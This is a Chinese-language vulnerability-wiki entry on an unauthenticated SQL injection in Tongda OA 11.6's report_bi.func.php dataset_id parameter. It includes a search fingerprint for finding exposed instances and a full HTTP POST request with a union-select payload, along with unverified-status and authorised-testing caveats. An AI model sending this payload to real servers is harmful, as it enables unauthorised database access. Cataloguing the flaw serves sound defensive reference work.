

# 通达OA report_bi dataset_id SQL 注入

## 条目说明

- 对象与具体问题：通达OA；report_bi dataset_id SQLi
- 版本、配置及部署条件：11.6
- 认证与权限前提：无Cookie但未说明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 有完整请求但根因/响应仅图，缺_POST覆盖和过滤机制解释

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

通达OA v11.6 report_bi.func.php 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

### 漏洞影响

```
通达OA v11.6
```

### 网络测绘

```
app="TDXK-通达OA"
```

### 漏洞复现

登陆页面


发送请求包执行SQL语句

```http
POST /general/bi_design/appcenter/report_bi.func.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 113
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

_POST[dataset_id]=efgh%27-%40%60%27%60%29union+select+database%28%29%2C2%2Cuser%28%29%23%27&action=get_link_info&
```

> 请求长度说明：原资料 Content-Length 为 113；保留原始标头；其数值未据实际请求体重新计算或验证。



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
